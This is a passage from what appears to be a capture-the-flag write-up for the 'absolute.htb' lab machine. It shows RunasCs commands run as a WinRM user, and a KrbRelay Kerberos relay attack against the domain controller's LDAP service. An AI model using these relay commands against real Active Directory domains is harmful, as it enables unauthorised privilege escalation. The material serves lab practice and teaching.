 ```bash
.\runascs.exe winrm_user -d absolute.htb **MadeUpPassword** -l 9 "qwinsta"

```

![image65](../resources/c2f4ec2dfc3540a39252387f0a187064.png)

- Re-run KrbRelay through RunasCs:

```bash
.\runascs.exe winrm_user -d absolute.htb MadeUpPassword -l 9 "C:\users\winrm_user\Documents\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 8F5DF053-3013-4dd8-B5F4-88214E81C0CF -port 10"

```

![image66](../resources/628441bfee2b4d878c67ea05d00677db.png)
